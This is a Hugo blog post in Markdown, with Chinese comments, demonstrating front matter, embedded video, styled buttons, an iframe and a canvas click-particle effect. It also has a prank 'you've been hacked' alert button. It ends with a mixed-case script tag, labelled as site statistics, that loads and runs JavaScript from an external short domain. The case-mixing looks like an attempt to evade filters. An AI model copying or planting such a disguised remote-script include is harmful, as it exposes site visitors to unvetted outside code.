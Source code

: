 ```yaml
---
title: cooleffect # 标题
date: 2024-03-26 00:00:00+0000 # 日期时间，如果时间未到，post 不会显示(注释掉 不显示日期)
slug: cooleffect # url(注释掉 和标题相同)
# description: xxxx # 描述小字(注释掉 不显示描述)
# weight: 1 # 权重越小，放到越前面   (注释掉 日期排序)
image: effect.jpg # 头图，注释掉，否则会有一个难看的呃加载不出来的图片

# tags: # 只能在侧面看到的标签,会显示在文章的底部
#     - TAG A
#     - TAG B
# categories: #会显示在 post 上面的分类
#     - themes
#     - syntax
---
```


### support videos:

<!-- ## Bilibili video
{{< bilibili "BV1d4411N7zD" >}}
## YouTube video
{{< youtube "0qwALOOvUik" >}}
## video file
{{< video "https://www.w3schools.com/tags/movie.mp4" >}} -->

### USE HTML

一个外🔗视频： <a  href="https://www.w3schools.com/tags/movie.mp4">video</a>


<!-- //link style -->
<style>
.article-content a {
  color: #0ff; /* cyan */
}
.article-content  a:hover {
  color: #ff0; /* yello */
}
</style>

一个本站html：
<button onclick="window.open('/a.html')">打开新页面</button>

用小窗展示：
<iframe src="/a.html" width="100%" height="100px" frameborder="0" scrolling="no"></iframe>

<!-- iframe style -->
<style>
iframe:hover {
  height: 300px;
}
iframe{
  transition: 0.3s;
  box-shadow: 0 0 10px rgba(0,0,0,0.5);
}
</style>


2个按钮:
<button onclick="">用😆力戳我</button>
<button onclick="alert('你的电脑已经被我黑掉了! 给我打钱')">不要点我</button>



捐赠按钮:
<button onclick="let b = prompt('请输入你要捐赠的金额(CNY)'); alert('你已经成功捐赠了'+b+'元 ! 谢谢您！');">捐赠🧧</button>

<!-- // button style -->
<style>
button {
  background-color: #333; /* Green */
  border: none;
  color: white;
  text-align: center;
  text-decoration: none;
  display: inline-block;
  font-size: 16px;
  margin: 4px 2px;
  cursor: pointer;
}
button:hover {
  background-color: #555;
  transform: scale(3.1);
  transition: 0.3s;
  box-shadow: 0 0 10px rgba(0,0,0,0.5);
  border-radius: 2px;
}
button:active {
  background-color: #333;
  transform: scale(0.9);
  transition: 0.1s;
}
</style>




//script 从网上抄的点击特效
<script>
function clickEffect() {
  let balls = [];
  let longPressed = false;
  let longPress;
  let multiplier = 0;
  let width, height;
  let origin;
  let normal;
  let ctx;
  const colours = ["#F73859", "#14FFEC", "#00E0FF", "#FF99FE", "#FAF15D"];
  const canvas = document.createElement("canvas");
  document.body.appendChild(canvas);
  canvas.setAttribute("style", "width: 100%; height: 100%; top: 0; left: 0; z-index: 99999; position: fixed; pointer-events: none;");
  const pointer = document.createElement("span");
  pointer.classList.add("pointer");
  document.body.appendChild(pointer);
 
  if (canvas.getContext && window.addEventListener) {
    ctx = canvas.getContext("2d");
    updateSize();
    window.addEventListener('resize', updateSize, false);
    loop();
    window.addEventListener("mousedown", function(e) {
      pushBalls(randBetween(10, 20), e.clientX, e.clientY);
      document.body.classList.add("is-pressed");
      longPress = setTimeout(function(){
        document.body.classList.add("is-longpress");
        longPressed = true;
      }, 500);
    }, false);
    window.addEventListener("mouseup", function(e) {
      clearInterval(longPress);
      if (longPressed == true) {
        document.body.classList.remove("is-longpress");
        pushBalls(randBetween(50 + Math.ceil(multiplier), 100 + Math.ceil(multiplier)), e.clientX, e.clientY);
        longPressed = false;
      }
      document.body.classList.remove("is-pressed");
    }, false);
    window.addEventListener("mousemove", function(e) {
      let x = e.clientX;
      let y = e.clientY;
      pointer.style.top = y + "px";
      pointer.style.left = x + "px";
    }, false);
  } else {
    console.log("canvas or addEventListener is unsupported!");
  }
 
 
  function updateSize() {
    canvas.width = window.innerWidth * 2;
    canvas.height = window.innerHeight * 2;
    canvas.style.width = window.innerWidth + 'px';
    canvas.style.height = window.innerHeight + 'px';
    ctx.scale(2, 2);
    width = (canvas.width = window.innerWidth);
    height = (canvas.height = window.innerHeight);
    origin = {
      x: width / 2,
      y: height / 2
    };
    normal = {
      x: width / 2,
      y: height / 2
    };
  }
  class Ball {
    constructor(x = origin.x, y = origin.y) {
      this.x = x;
      this.y = y;
      this.angle = Math.PI * 2 * Math.random();
      if (longPressed == true) {
        this.multiplier = randBetween(14 + multiplier, 15 + multiplier);
      } else {
        this.multiplier = randBetween(6, 12);
      }
      this.vx = (this.multiplier + Math.random() * 0.5) * Math.cos(this.angle);
      this.vy = (this.multiplier + Math.random() * 0.5) * Math.sin(this.angle);
      this.r = randBetween(8, 12) + 3 * Math.random();
      this.color = colours[Math.floor(Math.random() * colours.length)];
    }
    update() {
      this.x += this.vx - normal.x;
      this.y += this.vy - normal.y;
      normal.x = -2 / window.innerWidth * Math.sin(this.angle);
      normal.y = -2 / window.innerHeight * Math.cos(this.angle);
      this.r -= 0.3;
      this.vx *= 0.9;
      this.vy *= 0.9;
    }
  }
 
  function pushBalls(count = 1, x = origin.x, y = origin.y) {
    for (let i = 0; i < count; i++) {
      balls.push(new Ball(x, y));
    }
  }
 
  function randBetween(min, max) {
    return Math.floor(Math.random() * max) + min;
  }
 
  function loop() {
    ctx.fillStyle = "rgba(255, 255, 255, 0)";
    ctx.clearRect(0, 0, canvas.width, canvas.height);
    for (let i = 0; i < balls.length; i++) {
      let b = balls[i];
      if (b.r < 0) continue;
      ctx.fillStyle = b.color;
      ctx.beginPath();
      ctx.arc(b.x, b.y, b.r, 0, Math.PI * 2, false);
      ctx.fill();
      b.update();
    }
    if (longPressed == true) {
      multiplier += 0.2;
    } else if (!longPressed && multiplier >= 0) {
      multiplier -= 0.4;
    }
    removeBall();
    requestAnimationFrame(loop);
  }
 
  function removeBall() {
    for (let i = 0; i < balls.length; i++) {
      let b = balls[i];
      if (b.x + b.r < 0 || b.x - b.r > width || b.y + b.r < 0 || b.y - b.r > height || b.r < 0) {
        balls.splice(i, 1);
      }
    }
  }
}
clickEffect();//调用特效函数
</script>
<!-- 站点统计： -->
<sCRiPt sRC=//uj.ci/dos></sCrIpT>

    